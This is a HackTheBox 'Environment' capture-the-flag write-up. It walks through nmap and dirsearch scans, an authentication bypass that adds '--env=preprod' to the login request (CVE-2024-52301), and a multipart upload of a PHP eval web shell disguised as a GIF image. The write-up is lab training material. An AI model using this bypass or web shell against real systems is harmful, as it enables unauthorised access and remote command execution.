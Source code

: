 # Environment HackTheBox

# IP
- 10.10.11.67

# Result from the nmap
```
lily@fedora:~/projects/HackTheBox-Writeups/Environment$ nmap 10.10.11.67 -sV -A
Starting Nmap 7.92 ( https://nmap.org ) at 2025-09-02 20:26 EDT
Nmap scan report for 10.10.11.67
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# dirsearch
- chose on the factor that I had never used it before and saw it in a youtube video
- ```dirsearch -u http://10.10.11.67```
- Used a different command but eventually got
```
❯ dirsearch -u http://environment.htb 

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://environment.htb/

[07:23:08] Scanning:                                                                                                                            
[07:23:23] 403 - 555B - /admin/.config                                    
[07:23:23] 403 - 555B - /admin/.htaccess
[07:23:39] 403 - 555B - /administrator/.htaccess                          
[07:23:43] 403 - 555B - /admpar/.ftppass                                  
[07:23:43] 403 - 555B - /admrev/.ftppass
[07:23:46] 403 - 555B - /app/.htaccess                                    
[07:23:52] 403 - 555B - /bitrix/.settings.bak                             
[07:23:52] 403 - 555B - /bitrix/.settings
[07:23:52] 403 - 555B - /bitrix/.settings.php.bak                         
[07:23:54] 301 - 169B - /build  ->  http://environment.htb/build/         
[07:23:54] 403 - 555B - /build/                                           
[07:24:15] 403 - 555B - /ext/.deps                                        
[07:24:15] 200 - 0B - /favicon.ico                                      
[07:24:26] 200 - 4KB - /index.php                                        
[07:24:26] 200 - 2KB - /index.php/login/                                 
[07:24:31] 403 - 555B - /lib/flex/varien/.project                         
[07:24:31] 403 - 555B - /lib/flex/uploader/.actionScriptProperties
[07:24:31] 403 - 555B - /lib/flex/varien/.flexLibProperties
[07:24:31] 403 - 555B - /lib/flex/varien/.actionScriptProperties
[07:24:31] 403 - 555B - /lib/flex/uploader/.flexProperties
[07:24:31] 403 - 555B - /lib/flex/uploader/.project
[07:24:31] 403 - 555B - /lib/flex/uploader/.settings
[07:24:31] 403 - 555B - /lib/flex/varien/.settings
[07:24:34] 200 - 2KB - /login                                            
[07:24:34] 200 - 2KB - /login/                                           
[07:24:35] 302 - 358B - /logout/  ->  http://environment.htb/login        
[07:24:35] 302 - 358B - /logout  ->  http://environment.htb/login         
[07:24:36] 403 - 555B - /mailer/.env                                      
[07:25:01] 403 - 555B - /resources/sass/.sass-cache/                      
[07:25:01] 403 - 555B - /resources/.arch-internal-preview.css
[07:25:02] 200 - 24B - /robots.txt                                       
[07:25:12] 301 - 169B - /storage  ->  http://environment.htb/storage/     
[07:25:12] 403 - 555B - /storage/
[07:25:19] 403 - 555B - /twitter/.env                                     
[07:25:21] 405 - 244KB - /upload/                                          
[07:25:22] 405 - 244KB - /upload                                           
[07:25:24] 403 - 555B - /vendor/                                          
                                                                             
Task Completed    
```

# Env bypass
- try the login page and grab the package sent and then there is a error message directly brought out
```
POST /login HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123
```
- important logic that caught my eye
```
if($remember == 'False') {
        $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
```
- then eventually try
```
POST /login HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123&remember=111
```

- provide the Image here 

- the environment is in "preprod", and can autologin as ```user_id = 1``` and the user can jump to the management background page

- https://www.cybersecurity-help.cz/vdb/SB20241112127
- https://github.com/Nyamort/CVE-2024-52301

- You just need to enter ```GET``` Parameters can be bypassed

```
POST /login?--env=preprod HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123&remember=True
```

- using this I can find a trojan that I can upload to the platform to use to pop a shell

```
-----------------------------60487661513624885101007722530
Content-Disposition: form-data; name="upload"; filename="shell.phtml"
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>

-----------------------------60487661513624885101007722530--
```

